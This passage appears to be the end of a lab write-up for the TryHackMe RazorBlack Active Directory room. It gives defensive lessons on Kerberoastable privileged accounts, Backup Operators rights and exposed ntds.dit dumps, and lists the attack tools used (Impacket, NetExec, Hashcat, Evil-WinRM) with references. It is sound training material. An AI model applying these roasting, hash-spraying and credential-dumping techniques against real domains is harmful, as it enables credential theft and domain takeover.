- **Service Principal Names on Privileged Accounts**: Placing service accounts like `xyan1d3` into privileged groups (`Backup Operators`) while having Kerberoastable SPNs set makes privilege escalation trivial. Privileged accounts must never have SPNs, or must use complex 30+ character random passwords or Group Managed Service Accounts (gMSA).
- **Backup Operators Exposure**: `SeBackupPrivilege` and `SeRestorePrivilege` are effectively equivalent to Domain Admin. Any user in Backup Operators can read registry hives or NTDS files. Membership in this group must be treated with the same tiering standards as Domain Admins.
- **DPAPI Protection**: Windows DPAPI ties credential encryption to the owning user's security token and DPAPI master keys, preventing even administrative sessions from natively decrypting user credentials without running directly in that user's logon context.
- **Unsecured Backup Archives**: Storing sensitive artifacts like `ntds.dit` dumps inside shared folders (`trash`) allows attackers with administrative or lateral access to recover historical credentials across the entire forest.

---

## Tools & References

### Tools Used

| Tool | Purpose |
|---|---|
| **Nmap** | Port scanning and NFS share enumeration scripts |
| **NetExec (`nxc`)** | SMB and WinRM enumeration, privilege extraction, and hash spraying |
| **Impacket (`GetNPUsers`, `GetUserSPNs`, `secretsdump`)** | AS-REP Roasting, Kerberoasting, and SAM/NTDS hive parsing |
| **Hashcat & John the Ripper** | Cracking AS-REP tokens, Kerberoast TGS hashes, and encrypted ZIP archives |
| **BloodyAD** | Active Directory writable object enumeration and BloodHound JSON extraction |
| **Evil-WinRM** | PowerShell remote interactive access over WinRM |
| **CyberChef** | Steganography analysis and hex decoding for the root flag |

### References

- [Impacket Suite Repository](https://github.com/fortra/impacket)
- [NetExec Documentation](https://www.netexec.org/)
- [Microsoft Documentation on SeBackupPrivilege Abuse](https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/back-up-files-and-directories)
- [TryHackMe RazorBlack Room](https://tryhackme.com/room/razorblack)